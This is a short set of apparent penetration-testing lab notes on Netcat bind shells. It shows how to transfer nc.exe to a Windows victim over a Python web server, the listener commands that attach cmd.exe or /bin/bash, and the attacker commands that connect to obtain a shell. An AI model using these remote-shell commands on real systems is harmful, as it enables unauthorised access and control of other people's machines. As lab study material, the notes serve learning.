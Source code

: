 #### Bind shell
- A bind shell is a type of remote shell where the attacker connects directly to a listener on the target system,consequently allowing for execution of commands on the target system
- A Netcat listener can be setup to execute a specific executable like cmd.exe or /bin/bash when a client connects to the listener.

#### Lab
Transfering nc.exe file from attaker(kali) to windows(victim)
- python -m SimpleHTTPServer 80 [start a server in kali ]
- Browse the kali Ip(attacker_ip) in victim browser.
- Download the file
  
##### When attacker machine is kali:
- nc.exe -nvlp 1234 -e cmd.exe [ run this command in windows victim machine,-e cmd.exe file is executed when it will connected ]
- Back into attacker machine
- nc -nv victim_ip 1234 [this will give cmd shell  ]
##### When attacke machine is windows
- nc -nvlp 1234 -c /bin/bash [run this in kali victim machine ]
- nc.exe -nv victim_ip 1234 [this will give us bash shell ]

####Note 
- nc.exe file is found /usr/share/windows-resources/binaries this directories
